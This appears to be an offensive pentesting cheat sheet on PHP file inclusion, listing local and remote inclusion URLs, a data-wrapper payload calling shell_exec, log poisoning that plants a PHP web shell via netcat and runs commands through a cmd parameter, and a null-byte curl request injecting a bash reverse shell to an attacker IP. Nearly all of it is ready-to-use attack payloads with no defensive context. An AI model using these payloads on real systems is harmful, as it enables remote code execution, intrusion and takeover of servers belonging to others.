 # php

## file inclusion

    # local
    index.php?file=C:\Windows\System32\drivers\etc\hosts
    index.php?file=data:text/plain,<?php echo shell_exec("help")?>

    # remote
    index.php?file=http://<ip>:6666/toto.txt&arg=value

## log files

    # send to remote
    nc -nv <ip> 80
    <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

    # use from remote
    index.php?file=C:\file.log&cmd=dir

## null-byte

> Null Byte Injection is an exploitation technique which uses URL-encoded null byte characters (i.e., or 0x00 in hex) to the user-supplied data. If the string loses the null character, the length of a string becomes unknown until memory pointer happens to meet the next zero byte.

    curl -s --data "<?system('bash -i >& /dev/tcp/<ip>/443 0>&1');?>" 'http://<ip>/internal/advanced_comment_system/admin.php?ACS_path=php://input%00'

